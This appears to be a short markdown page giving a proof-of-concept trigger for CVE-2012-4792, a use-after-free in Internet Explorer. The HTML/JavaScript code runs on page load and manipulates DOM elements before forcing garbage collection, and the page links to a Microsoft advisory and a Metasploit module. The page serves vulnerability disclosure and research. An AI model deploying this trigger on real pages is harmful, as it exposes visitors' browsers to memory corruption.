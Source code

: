 # CVE-2012-4792

## PoC

```html
<!doctype html>
<html>
<head>
<script> 

function exploit()
{
 var e0 = null;
 var e1 = null;
 var e2 = null; 

 try {
  e0 = document.getElementById("a");
  e1 = document.createElement("div");
  e2 = document.createElement("q");
  e1.applyElement(e2);
  e1.appendChild(document.createElement('button'));
  e1.applyElement(e0);
  e2.innerHTML = "";
  e2.appendChild(document.createElement('body'));
 } catch(e) { }
 CollectGarbage(); 

} 

</script> 

</head>
<body onload="exploit()">
<form id="a">
</form>
</body>
</html>
```

## Reference

+ [Microsoft Security Advisory](https://docs.microsoft.com/en-us/security-updates/SecurityAdvisories/2013/2794220)
+ [Metasploit Framework](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/browser/ie_cbutton_uaf.rb)

